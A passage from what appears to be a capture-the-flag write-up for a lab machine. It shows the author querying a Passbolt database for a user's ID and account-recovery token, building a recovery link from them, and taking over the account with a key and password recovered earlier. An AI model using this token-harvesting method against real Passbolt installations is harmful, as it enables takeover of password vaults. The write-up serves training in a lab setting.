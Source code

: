     * _new";b:0;s:10:" * _errors";a:0:{}s:11:" * _invalid";a:0:{}s:17:" * _registryAlias";s:20:"AuthenticationTokens";}s:11:"fullBaseUrl";s:25:"https://passbolt.bolt.htb";
    }s:5:"title";s:29:"Your account recovery, Eddie!";} |
    

Going back to Google, [this post](https://community.passbolt.com/t/recover-
account-on-a-network-without-email/1394) shows how to make the recovery link:

![image-20210908204503183](https://0xdfimages.gitlab.io/img/image-20210908204503183.png)

I’ll get eddie’s user ID:

    
    
    mysql> select id from users where username = 'eddie@bolt.htb';
    +--------------------------------------+
    | id                                   |
    +--------------------------------------+
    | 4e184ee6-e436-47fb-91c9-dccb57f250bc |
    +--------------------------------------+
    1 row in set (0.00 sec)
    

And the token:

    
    
    mysql> select token from authentication_tokens where user_id = '4e184ee6-e436-47fb-91c9-dccb57f250bc' and type = 'recover';
    +--------------------------------------+
    | token                                |
    +--------------------------------------+
    | c0f05c38-2ae0-429d-9ee4-8929d7634ff1 |
    +--------------------------------------+
    1 row in set (0.00 sec)
    

That gives me
`https://passbolt.bolt.htb/setup/recover/4e184ee6-e436-47fb-91c9-dccb57f250bc/c0f05c38-2ae0-429d-9ee4-8929d7634ff1`.
On visiting, it prompts to install the plugin:

![image-20210908204841768](https://0xdfimages.gitlab.io/img/image-20210908204841768.png)

I’ll download and install the extension, and then click the “Refresh to detect
extension” link. It offers a new form:

![image-20210908204931066](https://0xdfimages.gitlab.io/img/image-20210908204931066.png)

I’ll give it the key from the config and hit “Next”. It now needs the password
for the key:

![image-20210908205008102](https://0xdfimages.gitlab.io/img/image-20210908205008102.png)

On entering the password and clicking “Verify”, it leads to some setup:

